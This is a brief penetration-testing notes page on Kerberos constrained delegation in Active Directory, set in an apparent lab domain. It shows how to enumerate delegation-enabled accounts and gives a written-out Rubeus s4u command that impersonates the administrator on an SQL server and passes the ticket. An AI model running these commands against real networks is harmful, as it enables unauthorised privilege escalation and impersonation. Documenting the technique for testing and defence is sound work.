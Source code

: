 # Constrained delegation

Constrained delegation (CD) is similar to [unconstrained-delegation.md](unconstrained-delegation.md "mention"), but in this case the server that has CD can delegate a Kerberos ticket to only a subset of services.

This property is written in the attribute `msDS-AllowedToDelegateTo`.

## List devices that support CD

```powershell
> Get-ADObject -Filter { msDS-AllowedToDelegateTo -ne "$null" } -Properties msDS-AllowedToDelegateTo
DistinguishedName        : CN=appsvc,CN=Users,DC=us,DC=techcorp,DC=local
msDS-AllowedToDelegateTo : {CIFS/us-mssql.us.techcorp.local, CIFS/us-mssql}
Name                     : appsvc
ObjectClass              : user
ObjectGUID               : 4f66bb3a-d07e-40eb-83ae-92abcb9fc04c
```

This means that the user `appsvc` has constrained delegation to the server `US-MSSQL` on the SMB service (CIFS).

## Impersonate privileged user

The user `appsvc` can impersonate any user on the machine `US-MSSQL`. It is even possible to change the service that we want to use, using [s4u.md](s4u.md "mention"):

```powershell
> .\Rubeus.exe s4u /user:appsvc /aes256:<key> /impersonateuser:administrator /msdsspn:CIFS/us-mssql.us.techcorp.local /altservice:HTTP /domain:us.techcorp.local /ptt
```

_Note: if you only have password of user account, generate hash with `Rubeus hash`._

It is then possible to authenticate to `US-MSSQL` ([ad-authentication.md](../misc/ad-authentication.md "mention")) we have domain admin privileges on this machine but we are limited to this machine.
